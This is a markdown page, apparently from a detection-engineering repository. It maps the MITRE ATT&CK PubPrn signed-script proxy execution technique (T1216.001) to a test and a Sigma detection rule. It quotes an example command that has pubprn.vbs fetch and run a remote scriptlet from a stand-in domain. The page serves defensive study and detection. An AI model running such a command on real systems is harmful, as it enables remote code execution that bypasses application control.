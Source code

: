 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Script Proxy Execution: Pubprn 

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_cscript_vbs.yml (id: 23250293-eed5-4c39-b57a-841c8933a57d)



[back](../index.md)
